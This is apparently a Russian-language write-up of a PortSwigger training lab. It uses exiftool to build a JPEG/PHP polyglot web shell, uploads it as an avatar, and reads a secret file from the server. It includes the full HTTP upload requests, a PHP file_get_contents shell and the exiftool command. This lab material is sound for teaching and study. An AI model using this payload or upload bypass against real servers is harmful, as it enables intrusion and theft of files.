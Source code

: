 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/flawed-validation-of-the-file-s-contents/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с помощью кред из условия и получу `POST`-запрос для загрузки картинки.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Length: 107749
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

С загрузкой `.jpg` проблем не было, пробую загрузить `.php` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ожидаемо, загрузить файл не получилось. Мне выдало следующую ошибку:

```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

В названии лабы есть спойлер, а именно слово `polyglot`.

Полиглотами называют такие файлы, которые меняют свой тип в зависимости от контекста использования. На сервере идет проверка на то, что загружаемый файл является валидной картинкой.

На сайте `Burp Suite Academy` натолкнулся на тулзу [exiftool](https://exiftool.org/). С ее помощью можно создавать файлы-полиглоты. Для создания полиглота `jpg` + `php` я использовал команду:

```bash
exiftool -Comment="START <?php echo file_get_contents('/home/carlos/secret'); ?> END" ~/Documents/dog.jpg -o polyglot.php
```

Сгенерированный файл я загрузил на сайт.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Length: 107821
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: text/php

ÿØÿà JFIF      ÿþ CSTART <?php echo file_get_contents('/home/carlos/secret'); ?> ENDÿÛ C 		
...
```

Открою страницу с аватаркой.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/1.png){: height="200" .align-center}

А вот и нужный мне токен — `ls5MhLfcM6OtELdaGSMSjRCZ55KciAjF`. Сдам его для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/2.png){: height="200" .align-center}

Успех)
